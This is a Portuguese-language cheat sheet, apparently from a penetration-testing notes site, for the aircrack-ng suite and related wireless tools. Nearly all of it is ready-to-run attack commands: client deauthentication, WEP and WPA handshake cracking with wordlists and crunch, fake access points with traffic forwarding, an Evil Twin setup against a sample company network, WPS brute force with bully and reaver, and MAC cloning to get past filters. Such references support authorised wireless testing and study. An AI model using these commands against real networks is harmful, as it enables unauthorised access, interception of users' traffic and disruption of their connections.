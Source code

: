 ```yaml
---
id: aircrack-ng_suite
title: aircrack-ng suite
---
```


Aircrack-ng é um conjunto completo de ferramentas para avaliar a segurança de
redes WiFi.

---

## Airmon-ng

Checando processos conflitantes:

```bash
airmon-ng check
```

Matando processos conflitantes:

```bash
airmon-ng check kill
```

Iniciando modo monitor:

```bash
airmon-ng start wlan0
```

:::caution
O nome da interface pode variar.
:::

Setando canal específico:

```bash
iwconfig wlan0mon channel 1
```

## Airodump-ng

Ver informações das redes wireless:

```bash
airodump-ng wlan0mon
```

Filtrando por canal:

```bash
airodump-ng -c 10 wlan0mon
```

Filtrando por BSSID:

```bash
airodump-ng --bssid 00:11:22:AA:BB:CC wlan0mon
```

Filtrando por tipo de criptografia:

```bash
airodump-ng --encrypt wep wlan0mon
```

Verificando redes com WPS:

```bash
airodump-ng wlan0mon --wps
```

```bash
wash -i wlan0mon -C
```

Capturando os pacotes e escrevendo em um arquivo:

```bash
airodump-ng -c 10 --bssid 00:11:22:AA:BB:CC -w capture wlan0mon
```

## Aireplay-ng

Para acelerar a captura de pacotes através do airodump-ng no ataque WEP:

```bash
aireplay-ng -3 -b 00:11:22:AA:BB:CC -h AA:BB:CC:DD:EE:FF:99 wlan0mon
```

**-b** ==> BSSID do roteador alvo.  
**-h** ==> BSSID do cliente conectado ao roteador.  

Para acelerar a captura de handshakes através do airodump-ng no ataque WPA:

```bash
aireplay-ng -0 5 -a 00:11:22:AA:BB:CC -c AA:BB:CC:DD:EE:FF:99 wlan0mon
```

**-a** ==> MAC access point.  
**-c** ==> MAC do cliente.  
**-0 5** ==> Deauth cliente 5 vezes.

## Aircrack-ng

Quebra do arquivo capturado no airodump-ng para redes WEP:

```bash
aircrack-ng capture-01.cap
```

Quebra do arquivo capturado no airodump-ng para redes WPA:

```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

Concatenar crunch e o aircrack-ng:

```bash
crunch 15 15 -t EmpresaAlfa%%%% 0123456789 | \
  aircrack-ng captura-01.cap -w - -e EmpresaAlfa
```

## Airdecap-ng

Desencriptando pacotes escriptados em rede wireless:

```bash
airdecap-ng -w A0:11:22:33:44:55:66:77:CC:B1:B4:8A:D3 capture-01.cap
```

**-w** ==> Senha em HEX da rede.

## Airbase-ng

Criando AP Fake OPN:

```bash
airbase-ng wlan0mon -c 3 -e FreeWifi
```

Criando AP Fake WPA2:

```bash
airbase-ng wlan0mon -c 3 -e FreeWifi -Z 4
```

Configurando AP Fake para possuir acesso à internet:  
1- echo 1 > /proc/sys/net/ipv4/ip_forward  
2- iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE  
3- apt install isc-dhcp-server  
4- nano /etc/default/isc-dhcp-server

```conf title="/etc/default/isc-dhcp-server"
INTERFACES="at0"
```

5- nano /etc/dhcp/dhcpd.conf

```conf title="/etc/dhcp/dhcpd.conf"
option domain-name-servers 8.8.8.8, 8.8.4.4;  

default-lease-time 600;  
max-lease-time 7200;  

ddns-update-style none;

subnet 10.0.0.0 netmask 255.255.255.0 {
  range 10.0.0.10 10.0.0.100;
  option routers 10.0.0.1;
}
```

5- ifconfig at0 10.0.0.1/24  
6- service isc-dhcp-server start

## Evil Twin

Consiste em criar uma rede idêntica a do alvo.  

Criando rede através do airbase-ng:

```bash
airbase-ng wlan0mon -c 10 -e EmpresaAlfa -a 00:11:22:33:44:55 -Z 4
```

Agora iremos efetuar o Death dos clientes:

```bash
aireplay-ng wlan0mon -0 5 -a 00:11:22:33:44:55
```

*Logo os usuários irão se conectar no AP Fake.*

## Bully

Brute force em WPS:

```bash
bully wlan0mon -b 00:11:22:AA:BB:CC -e EmpresaAlfa -c 10
```

## Reaver

Brute force em WPS:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv
```

Ataque PixieWPS:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1
```

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1 -P
```

Utilizando timeout e delay:

```bash
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -t 2 -d 5
```

## MAC Changer

Clonando MAC de cliente para conectar em redes com MAC Filter:

```bash
ifconfig wlan0 down  
```

```bash
macchanger -m AA:BB:CC:DD:EE:FF:99 wlan0  
```

```bash
ifconfig wlan0 up  
```

```bash
service NetworkManager  
```
